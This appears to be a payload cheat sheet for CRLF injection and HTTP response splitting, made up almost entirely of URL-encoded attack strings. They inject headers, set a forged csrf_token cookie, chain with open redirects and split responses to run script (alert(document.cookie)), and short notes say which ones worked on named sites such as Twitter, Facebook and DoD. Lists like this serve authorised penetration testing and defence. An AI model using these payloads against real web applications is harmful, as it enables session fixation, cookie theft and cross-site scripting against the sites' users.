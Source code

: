 ## CRLF Injection || HTTP Response Splitting

```
%0dSet-Cookie:csrf_token=xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx;
```

**Header-based test, site root**

```
%0d%0aheader:header
```
```
%0aheader:header
```
```
%0dheader:header
```
```
%23%0dheader:header
```
```
%3f%0dheader:header
```

**CRLF chained with Open Redirect server misconfiguration**

_Note:_ This sometimes works. (Discovered in some Yandex sites, was not exploitable from the root.)

```
//www.google.com/%2f%2e%2e%0d%0aheader:header
```
```
/www.google.com/%2e%2e%2f%0d%0aheader:header
```
```
/google.com/%2F..%0d%0aheader:header
```

**Twitter specific CRLF** by [@filedescriptor](http://blog.innerht.ml/twitter-crlf-injection/)

```
%E5%98%8A%E5%98%8Dheader:header
```

**CRLF Injection to XSS**

```
%0d%0aContent-Length:35%0d%0aX-XSS-Protection:0%0d%0a%0d%0a23%0d%0a<svg%20onload=alert(document.domain)>%0d%0a0%0d%0a/%2e%2e
```

**Response splitting on 302 Redirect, before Location header** (Discovered in DoD)

```
%0d%0aContent-Type:%20text%2fhtml%0d%0aHTTP%2f1.1%20200%20OK%0d%0aContent-Type:%20text%2fhtml%0d%0a%0d%0a%3Cscript%3Ealert('XSS');%3C%2fscript%3E
```

**Response splitting on 301 code, chained with Open Redirect to corrupt location header to break 301** by [@black2fan](https://twitter.com/black2fan) (Facebook bug)

_Note:_ `xxx:1` was used for breaking open redirect destination (Location header). Great example how of to escalate CRLF to XSS on a such, it would seem, unexploitable 301 status code.

```
%2Fxxx:1%2F%0aX-XSS-Protection:0%0aContent-Type:text/html%0aContent-Length:39%0a%0a%3cscript%3ealert(document.cookie)%3c/script%3e%2F..%2F..%2F..%2F../tr
```
